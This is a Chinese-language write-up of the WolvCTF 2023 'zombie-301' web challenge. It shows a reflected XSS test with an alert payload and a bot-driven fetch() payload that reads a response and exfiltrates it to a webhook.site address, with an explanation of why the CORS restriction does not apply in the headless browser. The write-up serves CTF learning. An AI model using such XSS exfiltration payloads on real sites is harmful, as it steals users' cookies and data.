 # WolvCTF(2023)-zombie-301 writeup

访问题目地址:

![web-3.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.1.png)

有两个输入框，先看下前端代码,只有两个接口信息：
![web-3.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.2.png)

貌似没啥东西，第一个输入框要求输入一个zombie节目，第二个是输入一个zombie节目url。

第一个框随便输入内容之后，回显内容如下，输入内容嵌入到页面里面了

![web-3.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.3.png)

试试xss注入,很好，没有过滤：

<script>alert(1)</script>

请求地址：`http://49.232.142.230:11589/zombie?show=%3Cscript%3Ealert%281%29%3C%2Fscript%3E`

![web-3.8](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.8.png)

第二个框是输入一个url,随便输入之后，回显内容要求输入的url中host头要和题目地址一样，emm

![web-3.9](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.9.png)

试下201中的debug接口：

![web-5.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.1.png)

debug接口有鉴权，访问不成功了，emm,现在可以知道的是，请求头中的cookie信息中含有flag信息，原本想试试访问请求头或者响应头信息 的，但是没有cors可以利用，**普通用户的浏览器**在默认安全策略下是**无法通过 `fetch` 获取跨域响应的内容（包括响应体、响应头等）**的，除非目标服务器主动设置了允许跨域访问的 CORS 头。如果是普通用户浏览器，JS 是拿不到跨域响应内容的；但在题目环境中，往往没开这个限制，甚至可以读取 `file://`。直接读取response信息：

```
<script>fetch("http://49.232.142.230:12327/").then((data) => fetch("https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c?c=".concat(JSON.stringify(data))));</script>
```

在 CTF 中通过 `` + `fetch()` 成功读取并 exfiltrate 敏感 response 内容，是因为代码在服务端无头浏览器中运行，**绕过了浏览器原本的 CORS 限制。**

![web-5.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.2.png)

webhook回传 Node.js中读取 HTTP 响应内容时未做 `stream` 转换处理直接返回了原始 `ReadableStream` 对象

![web-5.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-5.3.png)
